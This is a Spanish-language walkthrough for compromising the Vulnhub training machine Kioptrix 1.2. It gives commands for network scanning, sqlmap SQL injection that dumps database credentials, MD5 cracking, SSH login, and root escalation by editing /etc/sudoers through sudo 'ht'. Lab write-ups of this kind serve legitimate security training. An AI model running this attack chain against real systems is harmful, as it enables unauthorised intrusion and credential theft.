 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177891939-07f2e077-4b7a-4f04-9e6f-80c2e43d1a13.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/177892039-39832af6-5bbd-4ba1-9581-85abf27bffa0.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/177892640-8cd728ec-bbdd-4f6c-a2ec-2d1a55a17fa4.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

Modificar registro de DNS:
```
sudo nano /etc/hosts
192.168.1.4     kioptrix3.com
```
![5](https://user-images.githubusercontent.com/75953873/177894609-f8736c6f-88f5-4589-8537-b830f3aea646.png)

URL: `kioptrix3.com`

![4](https://user-images.githubusercontent.com/75953873/177894662-86f2e2d9-11d0-4e68-9d8b-eea8d94020b3.png)
 
- *Paso 4:* Enumerar directorios con Dirb. 
```
dirb http://kioptrix3.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![8](https://user-images.githubusercontent.com/75953873/177896088-d5bd5588-f32e-4391-ba4c-b3eb77cd2cfa.png)

```
dirb http://kioptrix3.com/gallery -X .php
```
![9](https://user-images.githubusercontent.com/75953873/177896489-33c3d635-4b79-4885-959f-ee23c9f644ee.png)

URL: `http://kioptrix3.com/gallery/gallery.php?id=1'`

![10](https://user-images.githubusercontent.com/75953873/177896633-3865f18f-a058-4598-a58b-a8172b935124.png)

- *Paso 4:* Inyección SQL con Sqlmap.
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs --batch
```
![11](https://user-images.githubusercontent.com/75953873/177897124-cea5badf-f09c-4cfa-beec-997462e2655c.png)

Enumerar base de datos `gallery`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery --dump --batch
```
![12](https://user-images.githubusercontent.com/75953873/177897559-e09a4acd-cad1-4bed-8435-5ba220183ab2.png)

Imprimir tablas `dev_accounts`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery -T dev_accounts --dump --batch
```
![13](https://user-images.githubusercontent.com/75953873/177898181-fd42d4ba-e68a-4e0e-9257-b82883f0c1e8.png)

- *Paso 5:* Identificar hash y crackearlo.
```
hash-identifier
```
![15](https://user-images.githubusercontent.com/75953873/177899147-49dace0d-0eac-4835-8f1a-0e86660302c9.png)

Tipo de hash: **MD5**

Crackearlo con hashCRACK:

Herramienta: https://github.com/R3LI4NT/hashCrack
```
python3 hashcrack.py --md5 5badcaf789d3d1d09794d8f021f40f0e -w /usr/share/wordlists/rockyou.txt
```
![14](https://user-images.githubusercontent.com/75953873/177899361-55ca89ae-2c96-4ac8-a1df-2a2680b3f125.png)

Usuario: `loneferret`

Contraseña: `starwars`

- *Paso 6:* Conectarse remotamente al servidor SSH.
```
ssh -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.1.4
```
![16](https://user-images.githubusercontent.com/75953873/177899948-125d5fed-1507-473f-a550-3ad1d74ea53d.png)

![17](https://user-images.githubusercontent.com/75953873/177900337-dc2fd45d-5877-4a61-8634-a6add18fa366.png)

Sudo **ht** permite editar cualquier archivo del sistema. Por lo tanto, hay que exportar TERM para editar los `sudoers`.
```
export TERM=xterm-color
sudo ht /etc/sudoers
```
![18](https://user-images.githubusercontent.com/75953873/177900743-71e4b54d-ce74-45c4-9434-f6670d824a61.png)

**F3** para editar los sudoers.

![19](https://user-images.githubusercontent.com/75953873/177901172-c5ddbe31-a194-4f08-b476-bafbc8379bee.png)

Editar el fragmento de usuarios privilegiados y conceder al usuario `loneferret` acceso root:
```
loneferret ALL=(ALL) NOPASSWD: ALL
```
![20](https://user-images.githubusercontent.com/75953873/177901676-bb6eef17-62c7-493d-95b8-ac335ade048b.png)
